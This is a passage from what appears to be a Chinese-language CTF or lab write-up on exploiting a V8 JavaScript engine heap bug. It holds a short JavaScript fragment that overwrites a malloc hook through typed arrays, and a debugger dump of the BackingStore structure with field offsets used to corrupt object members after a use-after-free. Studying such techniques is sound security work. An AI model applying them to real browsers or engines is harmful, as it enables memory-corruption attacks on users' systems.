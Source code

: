 ```js
c.set(d);
let dummy = new ArrayBuffer(0x60);
let malloc_hook = new ArrayBuffer(0x60);
let malloc_hook_ta = new Uint8Array(malloc_hook);

malloc_hook_ta.set(og_ta, 0xb);
```

另一種解法為讓 freed chunk 被其他 object 拿去用，這樣就能透過改寫 object member 做 exploit。

我們的目標為 `(v8::internal::BackingStore *)`，而 `BackingStore` (size: 0x30) 的結構如下：

```
$3 = {
  <v8::internal::BackingStoreBase> = {<No data fields>},
  members of v8::internal::BackingStore:
  buffer_start_ = 0x55555568e9a0, // 0x0 - 0x7
  byte_length_ = { // 0x8 - 0xf
    <std::__Cr::__atomic_base<unsigned long, true>> = {
      <std::__Cr::__atomic_base<unsigned long, false>> = {
        __a_ = {
          <std::__Cr::__cxx_atomic_base_impl<unsigned long>> = {
            __a_value = 21840
          }, <No data fields>}
      }, <No data fields>}, <No data fields>},
  byte_capacity_ = 21840, // 0x10 - 0x17
  type_specific_data_ = { // 0x18 - 0x1f + 0x20 - 0x27
    v8_api_array_buffer_allocator = 0x7fffffffe020,
    v8_api_array_buffer_allocator_shared = {
      __ptr_ = 0x7fffffffe020,
      __cntrl_ = 0x0
    },
    shared_wasm_memory_data = 0x7fffffffe020,
    deleter = {
      callback = 0x7fffffffe020,
      data = 0x0
    }
  },
  // 0x28 - 0x2f
  is_shared_ = false, // 0
  is_wasm_memory_ = false, // 1
  holds_shared_ptr_to_allocator_ = false, // 2
  free_on_destruct_ = true, // 3
  has_guard_regions_ = false, // 4 
  globally_registered_ = false, // 5
  custom_deleter_ = false, // 6
  empty_deleter_ = false // 7
}
```

- `buffer_start_` 指向的即是我們存放 data 的地方



